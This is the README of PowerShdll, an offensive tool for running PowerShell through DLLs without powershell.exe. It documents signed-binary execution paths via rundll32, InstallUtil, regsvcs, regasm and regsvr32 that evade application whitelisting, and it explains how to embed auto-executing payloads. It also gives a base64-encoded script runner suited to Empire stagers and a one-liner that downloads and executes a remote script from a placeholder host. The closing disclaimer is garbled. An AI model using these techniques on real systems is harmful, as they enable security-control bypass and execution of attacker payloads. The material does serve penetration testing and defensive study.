 # PowerShdll
Run PowerShell with dlls only.

Does not require access to powershell.exe as it uses powershell automation dlls.

PowerShdll can be run with: rundll32.exe, installutil.exe, regsvcs.exe, regasm.exe, regsvr32.exe or as a standalone executable.

## dll mode:

### Rundll32:
```
Usage:
rundll32 PowerShdll,main <script>
rundll32 PowerShdll,main -h      Display this message
rundll32 PowerShdll,main -f <path>       Run the script passed as argument
rundll32 PowerShdll,main -w      Start an interactive console in a new window (Default)
rundll32 PowerShdll,main -i      Start an interactive console in this console
If you do not have an interractive console, use -n to avoid crashes on output
```
### Alternatives (Credit to SubTee for these techniques):

```
1. 
    x86 - C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U PowerShdll.dll
    x64 - C:\Windows\Microsoft.NET\Framework64\v4.0.3031964\InstallUtil.exe /logfile= /LogToConsole=false /U PowerShdll.dll
2. 
    x86 C:\Windows\Microsoft.NET\Framework\v4.0.30319\regsvcs.exe PowerShdll.dll
    x64 C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regsvcs.exe PowerShdll.dll
3. 
    x86 C:\Windows\Microsoft.NET\Framework\v4.0.30319\regasm.exe /U PowerShdll.dll
    x64 C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regasm.exe /U PowerShdll.dll
4. 
    regsvr32 /s  /u PowerShdll.dll -->Calls DllUnregisterServer
    regsvr32 /s PowerShdll.dll --> Calls DllRegisterServer
```

## exe mode

```
Usage:
PowerShdll.exe <script>
PowerShdll.exe -h      Display this message
PowerShdll.exe -f <path>       Run the script passed as argument
PowerShdll.exe -i      Start an interactive console in this console (Default)
```

## Embeded payloads

Payloads can be embeded by modifying the "payload" variable in the start method of the common.cs file. If a payload is embeded, all other varguments will be ignored and the payload will be executed upon running PowerShdll.

## Examples
### Run base64 encoded script
```
rundll32 Powershdll.dll,main [System.Text.Encoding]::Default.GetString([System.Convert]::FromBase64String("BASE64")) ^| iex
```
Note: Empire stagers need to be decoded using [System.Text.Encoding]::Unicode
### Download and run script
```
rundll32 PowerShdll.dll,main . { iwr -useb https://website.com/Script.ps1 } ^| iex;
```
## Requirements
 * .Net v3.5 for dll mode.
 * .Net v2.0 for exe mode.

## Known Issues

Some errors do not seem to show in the output. May be confusing as commands such as Import-Module do not output an error on failure.
Make sure you have typed your commands correctly.

In dll mode, interractive mode and command output rely on hijacking the parent process' console. If the parent process does not have a console, use the -n switch to not show output otherwise the application will crash.

Due to the way Rundll32 handles arguments, using several space characters between switches and arguments may cause issues. Multiple spaces inside the scripts are okay.

## Disclaimer
This project is intended for security researchers and penetration testers and should not only be used with the approval of system owners.

